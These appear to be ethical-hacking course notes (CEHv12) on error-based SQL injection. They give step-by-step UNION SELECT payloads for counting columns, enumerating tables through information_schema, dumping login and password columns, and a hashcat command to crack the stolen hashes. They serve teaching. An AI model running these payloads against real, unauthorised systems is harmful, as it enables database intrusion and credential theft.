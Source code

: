 - Filename: eccouncil-ceh31250-v12-15-2-1-error-based-sqli-attacks.md
- Show Name: CEHv12 (312-50)
- Topic Name: Web Application Hacking: SQL Injection
- Episode Name: Error-based SQLi Attacks
================================================================================


Error-based SQLi Attacks
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------
- Explain and demonstrate how to use Error-based SQLi to access sensitive
  information
--------------------------------------------------------------------------------


+ What do we mean by 'error' based?
  - Make web app print SQL error to screen
    + Confirms the SQL injection

+ How do we do this?
  - Testing for injection
    + The single-quote (`'`) is your friend
      - Double-quotes can work as well

+ Now that we have a possible injection point, where do we go next?
  - ORDER BY
    + Sorts results in set by ascending or descending order
      - Or in this case by column number
    + `iron' order by 1 -- `
      - Increase the number by 1 until you receive an error
        + Now you know how many columns

+ Now that we have the columns identified, what do we do next?
  - UNION SELECT
    + `iron' union select 1,2,3,4,5,6,7 -- `
      - You can now see where usable areas are
        + They will be selected for output fields
          - `iron' union select 1,user(),3,4,@@version,6,7 -- `

+ So, we're now interacting with the SQL database and it just dumps info to the
  web page! If we have this kind of control, where do we go from here?
    + TABLE enum
      - `...1,table_name,3,4,5,6,7 FROM information_schema.tables -- `
    + COLUMN enum
      - `...1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='users' --`
    + Read COLUMN info
      - `...1,login,3,4,password,6,7 FROM users -- `
        + Save creds to file
        + Check hash type with *hash-identifier* and crack with hashcat
          - ``hashcat -m 100 -a 0 nixPass.txt /usr/share/wordlists/rockou.txt --force``

